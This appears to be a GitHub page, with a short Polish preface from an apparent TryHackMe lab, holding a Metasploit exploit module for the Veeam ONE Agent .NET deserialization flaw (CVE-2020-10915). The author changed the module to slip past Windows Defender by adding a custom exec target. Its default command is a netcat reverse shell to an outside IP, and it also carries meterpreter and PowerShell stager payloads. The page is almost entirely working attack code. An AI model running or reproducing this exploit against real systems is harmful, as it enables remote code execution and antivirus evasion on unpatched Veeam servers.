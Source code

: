 # SET-THM-SCRIPT-Veeam.One.Agent.Servic-
Orginalny Scrypt w danym przypadku nie działał, ponieważ blokowany jest przez Defendera. Dodałem do kodu payload "windows/x64/exec" aby ominąć defendera.
Kod który zmodyfikowałem do metasploita pod kątem windows defendera FLAG3.



==================================================================

class MetasploitModule < Msf::Exploit::Remote

  Rank = NormalRanking

  include Msf::Exploit::Remote::Tcp
  include Msf::Exploit::CmdStager
  include Msf::Exploit::Powershell

  def initialize(info = {})
    super(
      update_info(
        info,
        'Name' => 'Veeam ONE Agent .NET Deserialization',
        'Description' => %q{
          This module exploits a .NET deserialization vulnerability in the Veeam
          ONE Agent before the hotfix versions 9.5.5.4587 and 10.0.1.750 in the
          9 and 10 release lines.

          Specifically, the module targets the HandshakeResult() method used by
          the Agent. By inducing a failure in the handshake, the Agent will
          deserialize untrusted data.

          Tested against the pre-patched release of 10.0.0.750. Note that Veeam
          continues to distribute this version but with the patch pre-applied.
        },
        'Author' => [
          'Michael Zanetta', # Discovery
          'Edgar Boda-Majer', # Discovery
          'wvu' # Module
        ],
        'References' => [
          ['CVE', '2020-10914'],
          ['CVE', '2020-10915'], # This module
          ['ZDI', '20-545'],
          ['ZDI', '20-546'], # This module
          ['URL', 'https://www.veeam.com/kb3144']
        ],
        'DisclosureDate' => '2020-04-15', # Vendor advisory
        'License' => MSF_LICENSE,
        'Platform' => 'win',
        'Arch' => [ARCH_CMD, ARCH_X86, ARCH_X64],
        'Privileged' => false,
        'Targets' => [
          [
            'Windows Command',
            'Arch' => ARCH_CMD,
            'Type' => :win_cmd,
            'DefaultOptions' => {
              'PAYLOAD' => 'cmd/windows/powershell_reverse_tcp'
            }
          ],
          [
            'Windows Dropper',
            'Arch' => [ARCH_X86, ARCH_X64],
            'Type' => :win_dropper,
            'DefaultOptions' => {
              'PAYLOAD' => 'windows/x64/meterpreter_reverse_tcp'
            }
          ],
	  [
            'Windows custom Command',
            'Arch' => ARCH_CMD,
            'Type' => :win_cmd1,
            'DefaultOptions' => {
              'PAYLOAD' => 'windows/x64/exec'
            }
          ],


          [
            'PowerShell Stager',
            'Arch' => [ARCH_X86, ARCH_X64],
            'Type' => :psh_stager,
            'DefaultOptions' => {
              'PAYLOAD' => 'windows/x64/meterpreter/reverse_tcp'
            }
          ]
        ],
        'DefaultTarget' => 2,
        'DefaultOptions' => {
          'WfsDelay' => 10
        },
        'Notes' => {
          'Stability' => [SERVICE_RESOURCE_LOSS], # Connection queue may fill?
          'Reliability' => [REPEATABLE_SESSION],
          'SideEffects' => [IOC_IN_LOGS, ARTIFACTS_ON_DISK]
        }
      )
    )

    register_options([
      Opt::RPORT(2805),
      OptString.new(
        'CMD',
        [
          true,
          'np: (C:\Temp\nc.exe -e cmd 10.10.52.162 4444)',
          
        ]
      ),
      OptString.new(
        'HOSTINFO_NAME',
        [
          true,
          'Name to send in host info (must be recognized by server!)',
          'AgentController'
        ]
      )
    ])
  end

  def check
    vprint_status("Checking connection to #{peer}")
    connect

    CheckCode::Detected("Connected to #{peer}.")
  rescue Rex::ConnectionError => e
    CheckCode::Unknown("#{e.class}: #{e.message}")
  ensure
    disconnect
  end

  def exploit
    print_status("Connecting to #{peer}")
    connect

    print_status("Sending host info to #{peer}")
    sock.put(host_info(datastore['HOSTINFO_NAME']))

    res = sock.get_once
    vprint_good("<-- Host info reply: #{res.inspect}") if res

    print_status("Executing #{target.name} for #{datastore['PAYLOAD']}")

    case target['Type']
    when :win_cmd1
      execute_command(datastore['CMD'])
    when :win_cmd
      execute_command(payload.encoded)
    when :win_dropper
      # TODO: Create an option to execute the full stager without hacking
      # :linemax or calling execute_command(generate_cmdstager(...).join(...))
      execute_cmdstager(
        flavor: :psh_invokewebrequest, # NOTE: This requires PowerShell >= 3.0
        linemax: 9001 # It's over 9000
      )
    when :psh_stager
      execute_command(cmd_psh_payload(
        payload.encoded,
        payload.arch.first,
        remove_comspec: true
      ))
    end
  rescue EOFError, Rex::ConnectionError => e
    fail_with(Failure::Unknown, "#{e.class}: #{e.message}")
  ensure
    disconnect
  end

  def execute_command(cmd, _opts = {})
    vprint_status("Serializing command: #{cmd}")

    serialized_payload = Msf::Util::DotNetDeserialization.generate(
      cmd,
      gadget_chain: :TextFormattingRunProperties,
      formatter: :BinaryFormatter # This is _exactly_ what we need
    )

    print_status("Sending malicious handshake to #{peer}")
    sock.put(handshake(serialized_payload))

    res = sock.get_once
    vprint_good("<-- Handshake reply: #{res.inspect}") if res
  rescue EOFError, Rex::ConnectionError => e
    fail_with(Failure::Unknown, "#{e.class}: #{e.message}")
  end

  def host_info(name)
    meta = [0x0205].pack('v')
    packed_name = [name.length].pack('C') + name

    pkt = meta + packed_name

    vprint_good("--> Host info packet: #{pkt.inspect}")
    pkt
  end

  def handshake(serialized_payload)
    # A -1 status indicates a failure, which will trigger the deserialization
    status = [-1].pack('l<')

    length = status.length + serialized_payload.length
    type = 7
    attrs = 1
    kontext = 0

    header = [length, type, attrs, kontext].pack('VvVV')
    padding = "\x00" * 18
    result = status + serialized_payload

    pkt = header + padding + result

    vprint_good("--> Handshake packet: #{pkt.inspect}")
    pkt
  end
  
  
